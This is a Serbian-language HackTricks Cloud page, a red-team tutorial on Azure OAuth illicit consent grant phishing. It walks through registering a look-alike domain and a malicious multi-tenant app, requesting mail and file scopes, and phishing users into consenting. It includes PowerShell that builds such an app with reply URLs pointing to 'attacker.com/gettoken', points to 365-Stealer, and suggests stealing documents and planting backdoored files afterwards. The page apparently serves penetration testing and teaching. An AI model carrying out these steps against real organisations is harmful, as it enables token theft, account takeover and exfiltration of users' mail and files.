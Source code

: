 # Az - Neovlašćeno dodeljivanje saglasnosti

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Fišing OAuth aplikacija

**Azure aplikacije** traže dozvole za pristup **korisničkim podacima** (osnovne informacije, ali i pristup dokumentima, slanje e-pošte...).\
Ako je **dozvoljeno**, običan korisnik može dati saglasnost samo za **"niski uticaj" dozvole**. U **svim ostalim** slučajevima, potrebna je **saglasnost administratora**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` i prilagođena uloga koja uključuje `dozvolu za dodeljivanje dozvola aplikacijama` mogu obezbediti saglasnost za celu organizaciju.

Samo dozvole koje **ne zahtevaju saglasnost administratora** klasifikovane su kao **niski uticaj**. To su dozvole potrebne za **osnovnu prijavu openid, profil, e-pošta, User.Read i offline\_access**. Ako **organizacija** **omogućava** korisničku saglasnost za **sve aplikacije**, zaposleni može dati saglasnost aplikaciji da **pročita navedeno iz svog profila**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Stoga, napadač može pripremiti **zlonamernu aplikaciju** i putem **fišinga** naterati korisnika da **prihvati aplikaciju i ukrade njegove podatke**.

### Provera da li korisnici mogu dati saglasnost

Sledeća PowerShell komanda se koristi za proveru konfiguracije saglasnosti za korisnike u Azure Active Directory (Azure AD) u vezi sa njihovom sposobnošću da daju saglasnost aplikacijama:
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **Onemogući pristanak korisnika**: Ova postavka zabranjuje korisnicima da daju dozvole aplikacijama. Korisnicima nije dozvoljeno davanje pristanka aplikacijama.
* **Korisnici mogu dati pristanak za aplikacije od verifikovanih izdavača ili vaše organizacije, ali samo za odabrane dozvole**: Ova postavka omogućava svim korisnicima da daju pristanak samo za aplikacije koje su objavljene od strane verifikovanog izdavača i aplikacije registrovane u vašem sopstvenom okruženju. Dodaje se sloj kontrole koji omogućava pristanak samo za određene dozvole.
* **Korisnici mogu dati pristanak za sve aplikacije**: Ova postavka je dozvoljavajuća i omogućava svim korisnicima da daju pristanak za bilo koje dozvole za aplikacije, pod uslovom da te dozvole ne zahtevaju administrativni pristanak.
* **Prilagođena politika pristanka aplikacija**: Ova postavka ukazuje da je na snazi prilagođena politika koja se može prilagoditi specifičnim organizacionim zahtevima i može uključivati kombinaciju ograničenja zasnovanih na izdavaču aplikacije, dozvolama koje aplikacija zahteva i drugim faktorima.


## **Razumevanje napada neovlašćenog davanja pristanka**

U napadu neovlašćenog davanja pristanka, napadači prevare krajnje korisnike da daju dozvole zlonamernoj aplikaciji registrovanoj u Azure-u. To se postiže tako što se aplikacija prikazuje kao legitimna, što dovodi žrtve da nesvesno kliknu na dugme "Prihvati". Kao rezultat toga, Azure AD izdaje token sajtu napadača, omogućavajući im pristup i manipulaciju podacima žrtve, kao što su čitanje ili slanje e-pošte i pristupanje datotekama, bez potrebe za organizacionim nalogom.

## **Pregled toka napada**

Napad uključuje nekoliko koraka koji ciljaju na generičku kompaniju. Evo kako bi se mogao odvijati:

1. **Registracija domena i hosting aplikacije**: Napadač registruje domen koji liči na pouzdan sajt, na primer, "safedomainlogin.com". Pod ovim domenom, kreira se poddomen (na primer, "companyname.safedomainlogin.com") za hostovanje aplikacije koja je dizajnirana da uhvati autorizacione kodove i zatraži pristupne tokene.

2. **Registracija aplikacije u Azure AD**: Napadač zatim registruje Multi-Tenant aplikaciju u svom Azure AD okruženju, dajući joj ime po ciljnoj kompaniji da bi delovala legitimno. Konfiguriše Redirect URL aplikacije da upućuje na poddomen koji hostuje zlonamernu aplikaciju.

3. **Postavljanje dozvola**: Napadač postavlja aplikaciju sa različitim API dozvolama (na primer, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Ove dozvole, kada ih korisnik odobri, omogućavaju napadaču da izvuče osetljive informacije u ime korisnika.

4. **Distribucija zlonamernih linkova**: Napadač kreira link koji sadrži klijentski ID zlonamerne aplikacije i deli ga sa ciljanim korisnicima, prevareći ih da daju pristanak.

## **Korišćenje alata za napad**

Napad se može olakšati korišćenjem alata kao što je [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

### Priprema pre napada:
Ako napadač ima određeni nivo pristupa korisniku u organizaciji žrtve, može proveriti da li politika organizacije dozvoljava korisniku da prihvati aplikacije:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
Da bi izvršio napad, napadač bi trebao kreirati **novu aplikaciju u svom Azure Tenantu** (u registraciji aplikacija), konfiguriranu s dozvolama:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` se nalazi unutar `Microsoft Graph` u `Delegated permissions`. (Dozvole aplikacije uvijek će zahtijevati dodatno odobrenje).

* `User.ReadBasic.All` je dozvola koja će vam omogućiti **čitanje informacija svih korisnika** u organizaciji ako je odobrena.
* Zapamtite da samo `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` i prilagođena uloga koja uključuje `dozvolu za dodjeljivanje dozvola aplikacijama` mogu dati pristanak na razini tenant-a. Dakle, trebali biste **phishirati korisnika s jednom od tih uloga** ako želite da odobri **aplikaciju koja zahtijeva administratorski pristanak**.

Također možete kreirati aplikaciju putem CLI-a koristeći:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Proverite [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) da biste saznali kako ga konfigurisati.

{% hint style="warning" %}
Imajte na umu da će dobijeni **pristupni token** biti za **graph endpoint** sa opsegom: `User.Read` i `User.ReadBasic.All` (zahtevane dozvole). Nećete moći da izvršite druge radnje (ali to je dovoljno da **preuzmete informacije o svim korisnicima** u organizaciji).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

Možete takođe koristiti ovaj alat za izvođenje ovog napada.

## Post-Exploitation

Kada dobijete pristup korisniku, možete raditi stvari kao što je krađa osetljivih dokumenata, pa čak i otpremanje dokumenta sa zadnjim vratima.

## Reference

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
